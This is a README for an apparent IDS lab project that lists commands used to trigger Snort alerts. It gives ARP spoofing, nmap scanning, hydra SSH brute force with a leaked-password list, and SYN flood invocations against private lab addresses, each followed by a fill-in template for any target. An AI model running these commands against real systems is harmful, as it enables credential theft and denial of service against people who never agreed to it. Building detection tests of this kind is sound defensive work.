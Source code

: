 # attacks
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **kicktheamount**: Tool to perform and ARP spoofing on the victim. Link [here](https://github.com/k4m4/kickthemout).

```
 sudo python3 kickthemout.py --target 192.168.1.10

 sudo python3 kickthemout.py --target <ip>
``` 

- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```

- **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```

 - **syn_flood**: Tool to be used for the Syn Flood Attack based on the project [pyddos](https://github.com/mach1el/pyddos) by [mach1el](https://github.com/mach1el)..
 
```
sudo python syn_flood.py -d 192.168.1.10 -p 22 -t 1

sudo python syn_flood.py -d <ip> -p <port> -t <number of threads>
```
  
 
 
